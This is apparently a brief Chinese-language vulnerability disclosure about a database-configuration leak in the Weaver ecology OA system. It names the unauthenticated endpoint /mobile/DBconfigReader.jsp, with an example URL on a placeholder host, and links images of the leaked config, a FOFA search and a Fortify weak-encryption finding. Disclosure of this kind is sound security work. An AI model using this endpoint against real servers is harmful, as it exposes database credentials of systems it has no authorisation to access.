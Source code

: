 
# 泛微ecology OA系统接口存在数据库配置信息泄露漏洞

## /mobile/DBconfigReader.jsp

` http://x.x.x.x:8090/mobile/DBconfigReader.jsp`

![](./dbconfig.png)

![](./fofa.png)

## Fortify 代码审计 检测出-弱加密算法
![](./Fortify.jpg)
